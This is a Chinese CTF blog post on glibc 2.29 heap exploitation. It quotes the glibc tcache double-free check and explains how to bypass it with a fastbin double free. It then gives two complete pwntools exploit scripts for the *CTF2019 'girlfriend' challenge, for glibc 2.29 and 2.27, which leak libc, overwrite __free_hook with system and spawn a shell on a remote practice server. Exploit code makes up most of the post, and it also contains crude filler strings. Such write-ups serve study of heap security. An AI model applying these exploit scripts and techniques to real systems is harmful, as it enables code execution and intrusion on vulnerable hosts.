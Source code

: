 ```yaml
---
clayout: post
title:  "glibc2.29-double free"
date:   2020-2-19
desc: ""
keywords: ""
categories: [Binary]
tags: [pwn]
icon: icon-html
---
```


# glibc2.29-double free

> fastbin double free，👴的青春回来🌶

## glibc2.29-tcache

```c
#if USE_TCACHE
  {
    size_t tc_idx = csize2tidx (size);
    if (tcache != NULL && tc_idx < mp_.tcache_bins)
      {
	/* Check to see if it's already in the tcache.  */
	tcache_entry *e = (tcache_entry *) chunk2mem (p);

	/* This test succeeds on double free.  However, we don't 100%
	   trust it (it also matches random payload data at a 1 in
	   2^<size_t> chance), so verify it's not an unlikely
	   coincidence before aborting.  */
	if (__glibc_unlikely (e->key == tcache))
	  {
	    tcache_entry *tmp;
	    LIBC_PROBE (memory_tcache_double_free, 2, e, tc_idx);
	    for (tmp = tcache->entries[tc_idx];
		 tmp;
		 tmp = tmp->next)
	      if (tmp == e)
		malloc_printerr ("free(): double free detected in tcache 2");
	    /* If we get here, it was a coincidence.  We've wasted a
	       few cycles, but don't abort.  */
	  }

	if (tcache->counts[tc_idx] < mp_.tcache_count)
	  {
	    tcache_put (p, tc_idx);
	    return;
	  }
      }
  }
#endif
```

glibc2.29在tcache_entry结构体中加上一个8字节指针key，位置就是bk的位置，chunk进入tcache后，将chunk->key设置为tcachestruct(heap开头+0x10)

free时，进tcache前会检查chunk->key是否为tcache，如果是tcache就会检查tcache链中是否有相同的chunk

把chunk->key改了就可以绕过检查，但是👴寻思👴都能摸到bk了应该也能摸到fd，那👴应该也⑧需要double free了

👴搞出来fastbin，然后fastbin double free，梦回2.23



## *CTF2019-girlfriend

double free

libc白给，free一个大于等于0x420然后show就完事了

add一堆，先free7个，后面的准备进fastbin，然后fastbin double free基本操作

```python
from pwn import *

#r = process(['./lib/ld-2.29.so','--library-path','./lib/','./babyheap'])
r = remote('node3.buuoj.cn',25085)
elf=ELF('./babyheap')
libc = ELF('./lib/libc.so.6')

def add(size,name):
    r.sendlineafter('choice:','1')
    r.sendlineafter('name',str(size))
    r.sendlineafter('name:',name)
    r.sendlineafter('call:','1')

def show(index):
    r.sendlineafter('choice:','2')
    r.sendlineafter('index:',str(index))
    r.recvuntil('name:')

def free(index):
    r.sendlineafter('choice:','4')
    r.sendlineafter('index:',str(index))

add(0x500,'fuck')
add(0x40,'/bin/sh\x00')
free(0)
show(0)
r.recvuntil('\n')
leak = u64(r.recvuntil('\x7f').ljust(8,'\x00'))
libc_base = leak-0x3b1ca0
log.success(hex(libc_base))

free_hook = libc_base + libc.sym['__free_hook']
system = libc_base + libc.sym['system']
log.success(hex(free_hook))
add(0x500,'fuck')

for i in range(9):
	add(0x60,'fuck')
for i in range(8):
	free(i+2)
free(10)
free(11)
free(10)

for i in range(7):
	add(0x60,'fuck')

add(0x60,p64(free_hook-0x13))
add(0x60,'fuck')
add(0x60,'fuck')
add(0x60,'a'*0x13+p64(system))
free(1)
r.interactive()
```



glibc-2.27

```python
from pwn import *

r = remote('node3.buuoj.cn',29019)
elf=ELF('./babyheap')
libc = ELF('/libc-2.27.so')

def add(size,name):
    r.sendlineafter('choice:','1')
    r.sendlineafter('name',str(size))
    r.sendlineafter('name:',name)
    r.sendlineafter('call:','1')

def show(index):
    r.sendlineafter('choice:','2')
    r.sendlineafter('index:',str(index))
    r.recvuntil('name:')

def free(index):
    r.sendlineafter('choice:','4')
    r.sendlineafter('index:',str(index))

add(0x500,'fuck')
add(0x40,'/bin/sh\x00')
free(0)
show(0)
r.recvuntil('\n')
leak = u64(r.recvuntil('\x7f').ljust(8,'\x00'))
libc_base = leak-96-0x10-libc.sym['__malloc_hook']
log.success(hex(libc_base))

free_hook = libc_base + libc.sym['__free_hook']
system = libc_base + libc.sym['system']
log.success(hex(free_hook))

add(0x60,'fuck')
add(0x60,'fuck')
free(2)
free(2)
add(0x60,p64(free_hook-0x13))
add(0x60,'fuck')
add(0x60,'a'*0x13+p64(system))
free(1)
r.interactive()

```

